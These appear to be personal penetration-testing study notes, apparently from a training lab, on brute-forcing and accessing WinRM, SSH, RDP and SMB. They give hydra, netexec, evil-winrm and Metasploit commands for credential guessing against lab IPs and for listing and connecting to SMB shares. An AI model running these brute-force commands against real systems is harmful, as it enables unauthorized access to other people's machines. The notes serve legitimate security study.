 # WinRm [[15. Windows Remote Management]]
Netexec
- Can be used for WinRM, but also other protocols like SMB, LDAP, MSSQL..
- `sudo apt-get -y install netexec`
- See general usage
	- `netexec -h`
- Protocol-specific help
	- `netexec smb -h
- General format for using
	- `netexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
		- `user.list` and `password.list` for userlist and passwordlist respectively(?)

Evil-WinRM
- `sudo gem install evil-winrm
- `evil-winrm -i <target-IP> -u <username> -p <password>

# SSH
- Uses symmetric encryption, asymmetric encryption, hashing
- Brute force with hydra
	- `hydra -L user.list -P password.list ssh://10.129.42.197`
- `shh user@ip`

# Remote Desktop Protocol (RDP)
- Brute force with hydra 
	- `hydra -L user.list -P password.list rdp://10.129.42.197
- `xfreerdp /v:<target ip> /u:<username> /p:<password>`

# SMB
- Brute force with hydra
	- `hydra -L user.list -P password.list smb://10.129.42.197`
	- If error, saying THC Hydra cannot handle SMBv3 replies, can manually update and recompile hydra or use metasploit
- Metasploit
	- `msfconsole`
	- `use auxiliary/scanner/smb/smb_login`
	- `set user_file user.list`
	- `set pass_file password.list`
- After getting password
	- `netexec smb 10.129.42.197 -u "user" -p "password" --shares
		- to see available shares
	- `smbclient -U user \\\\10.129.42.197\\SHARENAME
		- to connect to share
